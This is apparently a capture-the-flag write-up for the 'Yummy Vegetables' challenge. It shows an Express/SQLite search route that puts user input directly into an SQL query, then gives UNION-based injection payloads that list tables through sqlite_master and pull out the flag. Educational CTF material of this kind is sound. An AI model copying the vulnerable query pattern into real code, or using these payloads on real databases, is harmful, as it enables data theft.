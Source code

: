 # Yummy Vegetables

## Description

> I love me my vegetables, but I can never remember what color they are! I know lots of people have this problem, so I made a site to help.

```javascript
const express = require('express');
const Ajv = require('ajv');
const sqlite = require('better-sqlite3');

const sleep = (ms) => new Promise((res) => { setTimeout(res, ms) })

// set up express
const app = express();
app.use(express.json());
app.use(express.static('public'));

// ajv request validator
const ajv = new Ajv();
const schema = {
  type: 'object',
  properties: {
    query: { type: 'string' },
  },
  required: ['query'],
  additionalProperties: false
};
const validate = ajv.compile(schema);

// database
const db = sqlite('db.sqlite3');

// search route
app.search('/search', async (req, res) => {
  if (!validate(req.body)) {
    return res.json({
      success: false,
      msg: 'Invalid search query',
      results: [],
    });
  }

  await sleep(5000); // the database is slow :p

  const query = `SELECT * FROM veggies WHERE name LIKE '%${req.body.query}%';`;
  let results;
  try {
    results = db.prepare(query).all();
  } catch {
    return res.json({
      success: false,
      msg: 'Something went wrong :(',
      results: [],
    })
  }

  return res.json({
    success: true,
    msg: `${results.length} result(s)`,
    results,
  });
});

// start server
app.listen(3000, () => {
  console.log('Server started');
});
```

## Solution

The vulnerable line in the code is the following:

```javascript
const query = `SELECT * FROM veggies WHERE name LIKE '%${req.body.query}%';`;
```

The application is passing unsanitized user input into the SQL query directly!

From the source code, we know we are dealing with an SQLite database. In order to retrieve the table names, we inject the following UNION query.

```json
{
    "query":"%' and 0 UNION SELECT name, null, null FROM  sqlite_master WHERE type ='table' AND name NOT LIKE 'sqlite_%';--"
}
```

This shows us an additional table that contains the flag!

```json
{
    "success":true,
    "msg":"2 result(s)",
    "results":
    [
        {
            "id":"the_flag_is_in_here_730387f4b640c398a3d769a39f9cf9b5",
            "name":null,
            "color":null
        },
        {
            "id":"veggies",
            "name":null,
            "color":null
        }
    ]
}
```

From here, we can get the flag.

```json
{
    "query":"%' and 0 UNION SELECT flag, null, null FROM the_flag_is_in_here_730387f4b640c398a3d769a39f9cf9b5;--"
}
```

The flag is `MetaCTF{sql1t3_m4st3r_0r_just_gu3ss_g0d??}`.
